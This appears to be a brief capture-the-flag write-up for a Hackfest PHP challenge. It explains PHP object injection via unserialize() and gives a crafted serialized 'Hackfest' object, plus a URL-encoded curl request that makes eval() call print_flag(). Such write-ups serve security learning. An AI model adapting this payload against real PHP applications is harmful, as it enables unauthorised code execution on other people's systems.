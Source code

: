 
 PHP object Injection via unserialize : </br>
We are greeted with a php code source and a web page where we can request a $_GET['msg'] message /</br>
after analysing the code source i concluded that i need to exucte the print_flag() function , so we need to eval('print_flag();');</br>
even that we have acess to the magic _toString() funtion , we can't access to the priavte $hook attribute .so here is the vulnerability .

For those who have no idea about unserialize() vulnerabilities:
Serialization vulnerabilities are not just native to PHP. These vulnerabilities exist in different languages under different names.</br> For example, we’ve heard a lot about Java deserialization vulnerabilities which can lead to code execution. Similar vulnerabilities exist in Python module pickle which can lead to code execution while unpickling the data.

So i just get the payload from owasp exemple n 2 :</br>
https://www.owasp.org/index.php/PHP_Object_Injection </br>
<code> data=O:8:"Example2":1:{s:14:"Example2 hook";s:10:"phpinfo();";} </code> </br>
and i changed some parameters in the hackfest serilazed object, such as stirng lengths to conforme it with our inital php code :>/br>
<code> msg=O:8:"Hackfest":1:{s:14:"Hackfest hook";s:13:"print_flag();";} </code>
with some url encode : </br>
msg=O%3A8%3A%22Hackfest%22%3A1%3A%7Bs%3A14%3A%22Hackfest%20hook%22%3Bs%3A13%3A%22print_flag()%3B%22%3B%7D%20
easy just  curl http://challenge.hackfest.tn:8080?msg=O%3A8%3A%22Hackfest%22%3A1%3A%7Bs%3A14%3A%22Hackfest%20hook%22%3Bs%3A13%3A%22print_flag()%3B%22%3B%7D%20 | grep 'hackfest'
